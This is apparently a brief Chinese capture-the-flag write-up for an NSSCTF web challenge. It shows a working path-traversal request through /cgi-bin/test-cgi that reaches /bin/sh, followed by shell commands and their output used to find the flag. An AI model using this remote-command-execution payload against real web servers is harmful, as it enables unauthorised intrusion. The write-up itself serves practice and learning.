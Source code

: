 #

[参考1](https://blog.csdn.net/weixin_52116519/article/details/127540169)
[参考2](https://blog.csdn.net/m0_53073183/article/details/135982730)
[题目链接](https://www.nssctf.cn/problem/2485)

## 漏洞发现

通过中间件版本

![alt text](image.png)

攻击命令

``` sh
/cgi-bin/test-cgi/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh

echo;ls

bin
boot
dev
etc
flag_is_here
home
lib
lib64
media
mnt
opt
proc
root
run
run.sh
sbin
srv
sys
tmp
usr
var
```

接下来在flag_is_here中搜就行

```bash
echo;grep -r "NSS" /flag_is_here
```

或者

echo;cat /run.sh

回显

```bash
#! /bin/bash

echo $FLAG > /flag_is_here/2/0/7/6/flag
FLAG=no_flag
export FLAG=no_flag

httpd-foreground
```

## 待学习

CVS泄露